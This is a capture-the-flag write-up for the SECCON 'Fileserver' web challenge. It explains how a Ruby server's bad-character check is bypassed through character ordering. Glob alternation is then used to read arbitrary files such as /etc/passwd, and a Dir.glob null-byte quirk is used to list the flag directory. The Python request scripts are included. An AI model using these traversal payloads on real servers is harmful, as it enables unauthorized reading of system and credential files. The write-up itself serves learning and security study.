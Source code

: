 # Fileserver (web, 345p, 39 solved)

In the challenge we get access to a custom made http server.
We can easily look around and recover the [source code](fileserver.rb).

There are 2 problems here to solve:

1. We don't know the flag file name, and we know it's random and pretty long, so we need either RCE or directory listing
2. In order to do anything fancy, we need to bypass the bad_char check with some special characters

## Bad char check

The check is:

```ruby
def is_bad_path(path)
  bad_char = nil

  %w(* ? [ { \\).each do |char|
    if path.include? char
      bad_char = char
      break
    end
  end

  if bad_char.nil?
    false
  else
    # check if brackets are paired
    if bad_char == ?{
      path[path.index(bad_char)..].include? ?}
    elsif bad_char == ?[
      path[path.index(bad_char)..].include? ?]
    else
      true
    end
  end
end
```

What seems odd is that:

- It allows for `{}[]` as long as they're not paired
- It looks only at the first bad char it finds
- The loop, a bit confusingly, goes over the forbidden chars in order, and on the data! This means if you start your payload with `{` but you have `*` at the very end, it will first find the `*`

The last point can be used to break this protection -> the order of `{}` and `[]` is set in such a way that if we send payload `{[}` then the script will first find `[` and check if it's paired or not, and we're free to use as many `{}` as we want.

## Arbitrary file read

Remeber, this still has to be some valid path, so having `[` doesn't seem so great, but curly braces denote `alternative` in glob.
This means we can use path `/{[,p}ublic/index.html` and it will work just fine for us.

The server looks for path like:

```ruby
  payload=req.path[1..]
  matches = Dir.glob(payload)
```

So strips the first `/`, and the webserver strips any additional `/` we place, however if we do `/{[,/}` the inner one will not be stripped!
This way we gain arbitrary file read, since we can just send: `GET /{[,/}etc/passwd` (encoded as `GET /%7b%5b,/%7detc/passwd` of course).

## Listing directories

The last part is probably the hardest one, how to list the `/tmp/flags` directory to learn the flag file name?
We were considering first to use something like arbitrary file read payload we have with suffix `{a,b,c,d...}` multiplied by the number of characters in flag file name, but the GET request was waaay too long.

Now we need to focus on the:

```ruby
  if req.path.end_with? '/'
    if req.path.include? '.'
      raise BadRequest
    end

    path = ".#{req.path}*"
    files = Dir.glob(path)
    res['Content-Type'] = 'text/html'
    res.body = ERB.new(File.read('index.html.erb')).result(binding)
    next
  end
```

The server allows for directory listing, but it includes a `.` at the front, and we can't put any `.` ourselves so somehow bypass it with traversal.
So we can only list directories under current CWD, and we want to be higher.

After going through glob source code we fund a very interesting quirk, probably related to `CVE-2018-8780`.
In short `Dir.glob` doesn't handle nullbytes properly, and splits the arguments on the nullbyte and considers only the last part.
So if we send `GET /%00/tmp/flags/` it will cut away the `./%00` leaving us with `/tmp/flags/*`!

## Final payload

Finally we can do:

```python
    s = nc("fileserver.chal.seccon.jp", 9292)
    s.sendall("GET /%00/tmp/flags/ HTTP/1.0\r\nConnection: close\r\n\r\n")
    print(s.recv(9999))
    print(s.recv(9999))
```

To get the flag file name and then

```python
    s = nc("fileserver.chal.seccon.jp", 9292)
    s.sendall("GET /%7b%5b,/%7dtmp/flags/MMnHIU0fofiPdL1HlJkyQgDu4O8YNERR.txt HTTP/1.0\r\nConnection: close\r\n\r\n")
    print(s.recv(9999))
    print(s.recv(9999))
```

To read the flag `SECCON{You_are_the_Globbin'_Slayer}`
